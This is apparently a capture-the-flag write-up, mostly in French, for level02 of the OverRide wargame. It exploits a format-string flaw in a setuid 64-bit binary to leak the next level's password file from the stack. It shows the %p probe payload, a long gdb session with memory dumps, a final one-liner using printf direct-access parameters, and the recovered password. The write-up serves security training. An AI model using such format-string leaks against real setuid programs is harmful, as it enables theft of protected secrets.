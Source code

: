 # level02

By looking at the code and with `file` command, we can see that the program is for x64 architecture:

```bash
level02@OverRide:~$ file level02 
level02: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf639d5c443e6ff1c50a0f8393461c0befc329e71, not stripped
```

Description simplifier:

Le binaire lit le fichier .pass du level suivant (/home/users/level03/.pass).
Nous l'avons remplacer par /tmp/.pass.
Le contenu du fichier est un peu controler pour voir si il peut etre authentique.
Il devra au moins respecter la regle suivante:
41 caracteres diffents de '\n' et un '\n'
Pour ma part, j ai creer le fichier comme ceci:
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHIJL" > /tmp/.pass
la commande echo creer un '\n' automatiquement en fin de la chaine de charactere.

Il y a deux fgets(), mais seul le premier sera utile.

Le premier fgets() va etre afficher a la fin du binaire a l'aide d'un printf().

Le premier parametre du printf va etre notre premiere input, ce qui represente une faille de securite, nous pouvons donc examiner la stack a partir de $esp avec des arguments tels que %p, %lx ...

Afin de pouvoir afficher le contenu des 30 * 16 premiers bytes de la stack j ai rentrer cette chaine de characteres dans la premiere input:
"%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p "

 et une chaine de characteres vide dans la deuxieme input:

Si nous examinons la stack frame a partir de $rsp juste avant le printf nous pouvons voir que les adresses ne sont pas coherentes car printf va rajouter des bytes sur la stack frame en creant d autres stack frames dans ses fonctions, mais nous avons une idee de ce que nous pourrons recuperer avec les Direct Access Parameters de printf().

Vu que nous savons ce que contient le fake fichier .pass, nous pouvons observer son contenu sur la stack et dans les direct access parameters en format little indian, nous devons retenir les numeros des Direct Access Parameter.
Dans notre cas ce sont les numero 22, 23, 24, 25, 26, 27.

Nous pouvons avoir un apercu avec cette commande :
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHIJL" > /tmp/.pass && gdb ./level02 -batch -ex "file level02" -ex "set exec-wrapper env -u LINES -u COLUMNS" -ex "set disassembly-flavor intel" -ex "b *main+4" -ex "b *main+148" -ex "b *main+237" -ex "b *main+453" -ex "b *main+523" -ex "b *main+654" -ex "r <<< '%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p'" -ex "echo Debut de la memoire allouee:\n" -ex "x/wx \$rsp" -ex "ni" -ex "echo Fin de la memoire allouee:\n" -ex "x/wx $esp" -ex "c" -ex "echo Path du fichier de base:\n" -ex "x/s 0x400bb2" -ex 'set $rdi="/tmp/.pass"' -ex "echo Path du fichier modifier:\n" -ex 'x/s $rdi' -ex "c" -ex 'x/s $rdi' -ex "c" -ex 'x/s $rdi' -ex "c" -ex 'x/s $rdi' -ex "c" -ex "echo (gdb) x/152bx \$rsp\n" -ex "x/152bx $rsp" -ex "echo Printf Direct Access Parameters:\n" -ex "c"

Breakpoint 1 at 0x400818
Breakpoint 2 at 0x4008a8
Breakpoint 3 at 0x400901
Breakpoint 4 at 0x4009d9
Breakpoint 5 at 0x400a1f
Breakpoint 6 at 0x400aa2
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000

Breakpoint 1, 0x0000000000400818 in main ()
Debut de la memoire allouee:
0x7fffffffe5e0: 0x00000000
0x000000000040081f in main ()
Fin de la memoire allouee:
0x7fffffffe5e4: 0x00000000

Breakpoint 2, 0x00000000004008a8 in main ()
Path du fichier de base:
0x400bb2:        "/home/users/level03/.pass"
Path du fichier modifier:
0x602010:        "/tmp/.pass"

Breakpoint 3, 0x0000000000400901 in main ()
0x7fffffffe540:  ""
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/

Breakpoint 4, 0x00000000004009d9 in main ()
0x7fffffffe570:  ""

Breakpoint 5, 0x0000000000400a1f in main ()
0x7fffffffe4d0:  ""
--[ Username: --[ Password: *****************************************

Breakpoint 6, 0x0000000000400aa2 in main ()
(gdb) x/152bx $rsp
0x7fffffffe4d1: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4d9: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4e1: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4e9: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4f1: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4f9: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe501: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe509: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe511: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe519: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe521: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe529: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe531: 0x00    0x00    0x00    0x01    0x00    0x00    0x00    0x00
0x7fffffffe539: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x41
0x7fffffffe541: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe549: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe551: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe559: 0x41    0x41    0x41    0x41    0x41    0x41    0x42    0x43
0x7fffffffe561: 0x44    0x45    0x46    0x47    0x48    0x49    0x4a    0x4c
Printf Direct Access Parameters:
0x7fffffffe4d0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6c8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4241414141414141 0x4a49484746454443 0x4c 0x7025207025207025 0x2520702520702520 0x2070252070252070 does not have access!
[Inferior 1 (process 24614) exited with code 01]



Nous pouvons donc recuperer le contenu du fichier .pass du level3 avec cette commande:
(python -c 'print "%22$lx %23$lx %24$lx %25$lx %26$lx %27$lx"') | ./level02 | tail -n 1 | tr ' ' '\n' | head -n 5 | fold -w2 | tr -d '\n' >/tmp/test && dd conv=swab if=/tmp/test of=/tmp/result 2>/dev/null && cat /tmp/result | fold -w 16 | rev | tr -d '\n' | xxd -r -p; echo ""

et le resultat est:
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

Explication de la commande finale:
(python -c 'print "%22$lx %23$lx %24$lx %25$lx %26$lx %27$lx"'): Afficher les bytes du fichier .pass
./level02: Le binaire en question
tail -n 1: On affiche que les bytes du fichier .pass (qui sont en little indian) en enlevant le superflu
tr ' ' '\n: On remplace les ' ' par des '\n'
head -n 5: On enleve encore un peu de superflu
fold -w2: On met un '\n' tout les 2 chars
tr -d '\n' >/tmp/test: On enleve les '\n' et on met le resultat dans /tmp/test
dd conv=swab if=/tmp/test of=/tmp/result 2>/dev/null: On swap les char 2 par 2 et on n'affiche pas la sortie d erreur
cat /tmp/result: On recupere le resultat
fold -w 16: on met un '\n' tout les 16 chars
rev: On inverse les strings lignes par lignes
tr -d '\n': On enleve les '\n'
xxd -r -p: On converti chaque element de la chaine en ascii
